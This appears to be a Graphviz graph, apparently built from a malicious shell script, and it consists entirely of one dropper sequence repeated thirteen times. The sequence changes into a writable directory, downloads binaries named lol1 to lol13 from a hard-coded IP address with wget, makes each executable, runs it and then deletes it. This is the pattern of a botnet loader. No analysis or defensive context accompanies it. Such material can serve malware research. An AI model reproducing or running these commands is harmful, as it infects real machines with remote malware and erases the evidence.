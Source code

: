 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://212.237.50.205/lol1 "];
10 -> 12 [label=";,"];
12 [label="chmod +x lol1 "];
12 -> 14 [label=";,"];
14 [label="./lol1 "];
14 -> 16 [label=";,"];
16 [label="rm -rf lol1 "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://212.237.50.205/lol2 "];
28 -> 30 [label=";,"];
30 [label="chmod +x lol2 "];
30 -> 32 [label=";,"];
32 [label="./lol2 "];
32 -> 34 [label=";,"];
34 [label="rm -rf lol2 "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://212.237.50.205/lol3 "];
46 -> 48 [label=";,"];
48 [label="chmod +x lol3 "];
48 -> 50 [label=";,"];
50 [label="./lol3 "];
50 -> 52 [label=";,"];
52 [label="rm -rf lol3 "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://212.237.50.205/lol4 "];
64 -> 66 [label=";,"];
66 [label="chmod +x lol4 "];
66 -> 68 [label=";,"];
68 [label="./lol4 "];
68 -> 70 [label=";,"];
70 [label="rm -rf lol4 "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://212.237.50.205/lol5 "];
82 -> 84 [label=";,"];
84 [label="chmod +x lol5 "];
84 -> 86 [label=";,"];
86 [label="./lol5 "];
86 -> 88 [label=";,"];
88 [label="rm -rf lol5 "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://212.237.50.205/lol6 "];
100 -> 102 [label=";,"];
102 [label="chmod +x lol6 "];
102 -> 104 [label=";,"];
104 [label="./lol6 "];
104 -> 106 [label=";,"];
106 [label="rm -rf lol6 "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://212.237.50.205/lol7 "];
118 -> 120 [label=";,"];
120 [label="chmod +x lol7 "];
120 -> 122 [label=";,"];
122 [label="./lol7 "];
122 -> 124 [label=";,"];
124 [label="rm -rf lol7 "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://212.237.50.205/lol8 "];
136 -> 138 [label=";,"];
138 [label="chmod +x lol8 "];
138 -> 140 [label=";,"];
140 [label="./lol8 "];
140 -> 142 [label=";,"];
142 [label="rm -rf lol8 "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://212.237.50.205/lol9 "];
154 -> 156 [label=";,"];
156 [label="chmod +x lol9 "];
156 -> 158 [label=";,"];
158 [label="./lol9 "];
158 -> 160 [label=";,"];
160 [label="rm -rf lol9 "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://212.237.50.205/lol10 "];
172 -> 174 [label=";,"];
174 [label="chmod +x lol10 "];
174 -> 176 [label=";,"];
176 [label="./lol10 "];
176 -> 178 [label=";,"];
178 [label="rm -rf lol10 "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://212.237.50.205/lol11 "];
190 -> 192 [label=";,"];
192 [label="chmod +x lol11 "];
192 -> 194 [label=";,"];
194 [label="./lol11 "];
194 -> 196 [label=";,"];
196 [label="rm -rf lol11 "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://212.237.50.205/lol12 "];
208 -> 210 [label=";,"];
210 [label="chmod +x lol12 "];
210 -> 212 [label=";,"];
212 [label="./lol12 "];
212 -> 214 [label=";,"];
214 [label="rm -rf lol12 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://212.237.50.205/lol13 "];
226 -> 228 [label=";,"];
228 [label="chmod +x lol13 "];
228 -> 230 [label=";,"];
230 [label="./lol13 "];
230 -> 231 [label=";,"];
}
